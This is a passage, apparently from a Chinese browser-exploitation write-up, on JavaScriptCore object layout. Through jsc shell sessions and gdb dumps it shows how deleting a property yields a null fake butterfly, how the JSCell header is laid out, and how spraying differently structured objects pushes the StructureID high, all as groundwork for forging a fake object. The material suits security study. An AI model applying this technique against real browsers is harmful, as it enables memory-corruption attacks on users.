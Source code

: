 创建一个空对象，添加三个属性后删除第二个属性，第二个属性变成了`0x0000000000000000`
```shell
>>> obj = {}
>>> obj.x = 1
>>> obj.y = 2
>>> obj.z = 3
>>> delete obj.y
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470460:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 297

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000129	0x0000000000000000
0x7fffaf4b0090:	0xffff000000000001	0x0000000000000000
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```

想法来了：地址`0x7fffaf4b0080`是对象`obj`起始地址，我们可以有限控制偏移`0x10`之后的若干连续空间内存布局，那我们是否有可能把第一个属性地址`0x7fffaf4b0090`作为伪造对象的起始地址进行利用呢？

通过删除属性可以把第二个属性的内存置为`0x0000000000000000`用于伪造空butterfly，剩下的就是第一个属性如何构造

这里补充一点：每个对象的前八字节叫作JSCell
```c
class JSCell : public HeapCell {
    ...
    StructureID m_structureID;
    IndexingType m_indexingTypeAndMisc; // DO NOT store to this field. Always CAS.
    JSType m_type;
    TypeInfo::InlineTypeFlags m_flags;
    CellState m_cellState;
```

我们可以进行Spray，上面的测试过程可以看出每次新建一个结构不同的对象，`StructureID`就会递增，所以我们堆喷一大堆结构不同的对象，理论上`StructureID`就会增加到很大

尝试Spray，然后查看最后一个对象的内存
```javascript
for (var i = 0; i < 0x1000; i++) {
    obj = {};
    obj.x = 1;
    obj['prop_' + i] = 2;
}
```

可以看到`StructureID`从`295`增加到了`4390`，那我们完全可以控制`StructureID`为`0x1000`的对象
```javascript
>>> for (var i = 0; i < 0x1000; i++) { obj = {}; obj.x = 1; obj['prop_' + i] = 2; } describe(obj)
Object: 0x7fffaf4b00c0 with butterfly (nil) (Structure 0x7fffaf470380:[Object, {x:0, prop_0:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 295
Object: 0x7fffaf4b0140 with butterfly (nil) (Structure 0x7fffaf4703f0:[Object, {x:0, prop_1:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 296
Object: 0x7fffaf4b01c0 with butterfly (nil) (Structure 0x7fffaf470460:[Object, {x:0, prop_2:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 297
Object: 0x7fffaf4b0240 with butterfly (nil) (Structure 0x7fffaf4704d0:[Object, {x:0, prop_3:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 298
Object: 0x7fffaf4b02c0 with butterfly (nil) (Structure 0x7fffaf470540:[Object, {x:0, prop_4:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 299
...
Object: 0x7fffaf530040 with butterfly (nil) (Structure 0x7fffaf4e0310:[Object, {x:0, prop_4095:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 4390
```
